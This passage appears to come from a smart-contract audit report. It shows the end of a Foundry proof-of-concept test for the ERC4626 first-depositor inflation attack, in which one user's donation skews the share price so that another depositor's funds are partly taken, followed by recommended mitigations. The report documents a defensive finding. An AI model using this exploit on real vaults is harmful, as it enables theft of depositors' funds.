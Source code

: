 ```solidity
    // USER1 sends 10e18-1 of VaultToken and sets the price of 1 wei of shares to 10e18 VaultToken.
    VaultToken.transfer(address(ERC4626-Cloned), 10e18-1);
    vm.stopPrank();

    vm.startPrank(USER2);
    VaultToken.approve(address(ERC4626-Cloned), 19e18);
    // USER2 deposits 19e18 of VaultToken and gets 1 wei of shares due to rounding and the price manipulation.
    ERC4626-Cloned.deposit(19e18, USER2);
    vm.stopPrank();

    // USER1 and USER2 redeem their shares.           
    vm.prank(USER1);
    ERC4626-Cloned.redeem(1, USER1, USER1);
    vm.prank(USER2);
    ERC4626-Cloned.redeem(1, USER2, USER2);

    // USER1 and USER2 both got 14.5 VaultToken.
    // But USER1 deposited 10 VaultToken and USER2 deposited 19 VaultToken – thus, USER1 stole VaultToken tokens from USER2.
    // With withdrawal fees enabled, USER1 would've been penalized more than USER2
    // (14.065 VaultToken vs 14.935 VaultToken tokens withdrawn, respectively),
    // but USER1 would've still gotten more VaultToken that she deposited.
    assertEq(VaultToken.balanceOf(USER1), 14.5e18);
    assertEq(VaultToken.balanceOf(USER2), 14.5e18);
}
```




### Recommended Mitigation Steps
Consider either of these options:

1-Consider sending the first 1000 shares to the address 0, a mitigation used in Uniswap V2

2-In the deposit function of project, consider requiring a reasonably high minimal amount of assets during first deposit. The amount needs to be high enough to mint many shares to reduce the rounding error and low enough to be affordable to users.

3-On the first deposit, consider minting a fixed and high amount of shares, irrespective of the deposited amount

4-Consider seeding the pools during deployment. This needs to be done in the deployment transactions to avoiding front-running attacks. The amount needs to be high enough to reduce the rounding error.

5-Consider sending first 1000 wei of shares to the zero address. This will significantly increase the cost of the attack by forcing an attacker to pay 1000 times of the share price they want to set. For a well-intended user, 1000 wei of shares is a negligible amount that won't diminish their share significantly.



### [Low-09] Missing Event for  initialize
